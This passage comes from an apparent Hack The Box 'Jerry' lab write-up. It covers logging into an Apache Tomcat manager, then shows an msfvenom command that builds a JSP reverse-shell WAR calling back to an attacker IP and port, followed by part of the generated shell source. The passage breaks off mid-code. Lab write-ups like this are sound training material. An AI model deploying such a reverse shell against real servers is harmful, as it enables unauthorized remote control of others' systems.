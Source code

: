 ![Apache Tomcat Server Status]({attach}images/hack-the-box-jerry/jerry.htb:8080_manager_status.png)

Wow... that was surprisingly straightforward. Okay, so this gives us a bit more
info about the server that Tomcat is running on. Heading back to the landing
page and clicking on "Manager App" gives this:

![Apache Tomcat Manager App]({attach}images/hack-the-box-jerry/jerry.htb:8080_manager_html.png)

Finally, visiting the "Host Manager" link gives us an HTTP 403 Forbidden
response, despite our credentials. This suggest the roles associated with our
user don't have enough permissions to access this page.

# Foothold

Reading around, it seems that the manager app will allow us to install a new
[WAR](https://en.wikipedia.org/wiki/WAR_(file_format)) (Web Application
Resource) application, allowing us to run arbitrary Java code on the server. If
we can install a reverse shell this way, it'll allow us to poke around the
system at our leisure.

The next step is to generate the reverse shell application. For this we can use
`msfvenom`, the part of the [Metasploit](https://www.metasploit.com) framework
used to generate payloads:

```shell-session
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.52 LPORT=1337 -f war > reverse.war
```

Under the hood, `msfvenom` has generated the following code and compiled it for
us to a WAR file:

```jsp
<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>

<%
  class StreamConnector extends Thread
  {
    InputStream sw;
    OutputStream hd;

    StreamConnector( InputStream sw, OutputStream hd )
    {
      this.sw = sw;
      this.hd = hd;
    }

    public void run()
    {
      BufferedReader nr  = null;
      BufferedWriter alc = null;
      try
      {
        nr  = new BufferedReader( new InputStreamReader( this.sw ) );
        alc = new BufferedWriter( new OutputStreamWriter( this.hd ) );
        char buffer[] = new char[8192];
        int length;
        while( ( length = nr.read( buffer, 0, buffer.length ) ) > 0 )
        {
          alc.write( buffer, 0, length );
          alc.flush();
        }
      } catch( Exception e ){}
```